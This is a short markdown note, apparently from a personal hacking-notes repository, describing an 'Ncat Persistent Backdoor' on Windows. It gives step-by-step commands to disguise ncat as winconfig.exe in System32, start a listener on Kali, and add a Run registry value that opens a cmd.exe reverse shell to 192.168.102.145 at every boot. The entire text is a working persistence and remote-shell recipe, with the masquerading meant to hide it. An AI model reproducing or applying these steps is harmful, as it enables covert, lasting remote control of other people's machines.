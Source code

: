 # Ncat Persistent Backdoor

* On victim, rename `ncat.exe` to `winconfig.exe` and move it to `C:\Windows\System32\winconfig.exe`
* On kali, set up a listener `ncat -l -p 5544 -v`
* On windows &gt; Run &gt; `regedit` &gt;`Computer\HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run` &gt; New &gt; String Value &gt; `winconfig` &gt; Value data: `"C:\Windows\System32\winconfig.exe 192.168.102.145 5544 -e cmd.exe"`

\`\`

